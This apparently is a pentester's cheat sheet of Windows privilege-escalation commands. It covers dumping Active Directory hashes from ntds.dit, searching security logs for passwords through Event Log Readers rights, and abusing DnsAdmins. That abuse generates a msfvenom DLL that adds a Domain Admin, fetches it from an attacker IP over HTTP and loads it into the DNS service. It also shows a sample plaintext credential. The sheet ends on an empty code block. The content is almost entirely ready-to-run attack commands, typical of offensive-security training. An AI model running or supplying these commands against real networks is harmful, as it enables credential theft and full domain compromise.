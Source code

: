 ```
impacket-secretsdump local -system SYSTEM -ntds ntds.dit
```
## Using Robocopy to transfer files
```
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```
# Event Log Readers
## Confirming Group Membership
```
net localgroup "Event Log Readers"
```
## Searching Security Logs using webtutil
```
wevtutil qe Security /rd:true /f:text | Select-String "/user"
```
## Passing Credientials to wevtutil
```
wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```
## Searching Security Logs Using Get-WinEvent
```
Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```
The cmdlet can also be run as another user with the -Credential parameter.
# DNS Admins
## Leveraging DnsAdmins Access
```
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```
```
sudo python3 -m http.server 7777
```
From clients powershell
```
wget "http://10.10.14.214:7777/adduser.dll" -outfile "adduser.dll"
```
From clients CMD
```
dnscmd.exe /config /serverlevelplugindll C:\tools\adduser.dll
```
if denied execute this in powershell
```
Get-ADGroupMember -Identity DnsAdmins
```
### Finding Users SID
```
wmic useraccount where name="netadm" get sid
```
### Checking Permissions on DNS Service
```
sc.exe sdshow DNS
```
### Stop and Start DNS Services
```
```